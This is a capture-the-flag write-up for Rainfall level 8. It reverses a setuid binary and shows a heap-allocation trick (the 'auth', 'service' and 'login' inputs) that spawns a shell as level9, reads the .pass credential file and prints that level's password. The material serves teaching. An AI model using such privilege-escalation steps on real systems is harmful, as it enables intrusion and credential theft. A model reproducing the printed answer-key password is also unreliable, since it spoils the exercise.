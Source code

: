 # Rainfall Level 8 Guide
This guide will walk you through the process of finding the password for the `level9` user.

## 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level8
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
```

We can see that the `level8` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level9`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It waiting fon an input, but every times it prints `(nil), (nil)`.
```bash
level6@RainFall:~$ ./level8
test
(nil), (nil) 
aaa
(nil), (nil) 
bbb
(nil), (nil)
```

## 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level8.c](Ressources/ghidra_analyse_level8.c), and the reconstructed C code in [source.c](source.c).

## 3. Analysis

We find a main function, which is very long. You will find the source code rebuild in the [source_code_rebuild.c](Ressources/source_code_rebuild.c) file, and the simplified source code in the [source.c](source.c) file.
We will use the simplified source code to explain the vulnerability.

We can see `system("/bin/sh")` at the end of the main function. We need to find a way to execute this command.
```c
int main(void)
{
  char input[128];
  uint uVar4;
  char local_8b[2];
  char acStack_89 [125];
  
  do {
    printf("%p, %p\n", auth, service);
    if (fgets(input,0x80,stdin) == NULL) {
        return 0;
    }
    if (strncmp(input, "auth ", 5) == 0) {
        auth = malloc(4);
	    auth[0] = 0;
        uVar4 = strlen(input + 5);
        if (uVar4 < 31) {
            strcpy((char *)auth, input + 5);
        }
    }
    if (strncmp(input, "reset", 5) == 0) {
        free(auth);
    }
    if (strncmp(input, "service", 7) == 0) {
        service = strdup(input + 7);
    }
    if (strncmp(input, "login", 5) == 0) {
        if (auth != NULL && auth[32] == 0) {
            fwrite("Password:\n", 1, 10, stdout);
        } else {
            system("/bin/sh");
        }
    }
  } while( true );
}
```
This programm take an input, and if the input begins with `auth`, it will copy the input after `auth` in the `auth` variable, if the length of the input after `auth ` is less than 31.
If the input begins with `reset`, it will free the `auth` variable.
If the input begins with `service`, it will copy the input after `service` in the `service` variable.
If the input begins with `login`, it will check if the `auth` variable is not `NULL` and the 32th byte of the `auth` variable is `0`. If it is the case, it will print `Password:`. If not, it will execute `system("/bin/sh")`.

## 4. Exploitation

So if we write `auth `, the `auth` variable will be set to nothing.
```bash
auth 
0x804a038, (nil)
```
`0x804a038` is the address of the `auth` variable, after malloc.
```bash
service
0x804a038, 0x804a048
```
`0x804a048` is the address of the `service` variable, after strdup.
We can see that the `service` variable is just after the `auth` variable in memory.
Indeed, malloc allocate memory following the last memory allocation.

Between `0x804a038` and `0x804a048`, there is 16 bytes of memory.
We want to overflow the `auth[32]` byte.
If `auth[0]` is at the address `0x804a038`, `auth[32]` is at the address `0x804a038 + 32 = 0x804a058`.
`service` is at the address `0x804a048`, so we need to write 16 bytes in the `service` variable to overflow the `auth[32]` byte.
1 char == byte, so we need to write 16 characters to overflow the `auth[32]` byte.

```c
if (strncmp(input, "service", 7) == 0) {
    service = strdup(input + 7);
}
```
`strdup` will copy (and `malloc`) the input after `service` in the `service` variable. So we can write 16 characters after `service` to have 16 bytes in the `service` variable.

```bash
service0123456789012345
0x804a038, 0x804a048
```

Now, if we write `login`, the program will check if the 32th byte of the `auth` variable is `0`. If it's not the case, it will execute `system("/bin/sh")`.
```bash
login
$ 
```

We have the shell ! We can check if we have the `level9` rights.
```bash
$ whoami
level9
```

So we can read the password in the `/home/user/level9/.pass` file.
```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

Congratulations!
We can now connect to the `level9` user with this password.
```bash
level8@RainFall:~$ su level9
Password:
level9@RainFall:~$
```
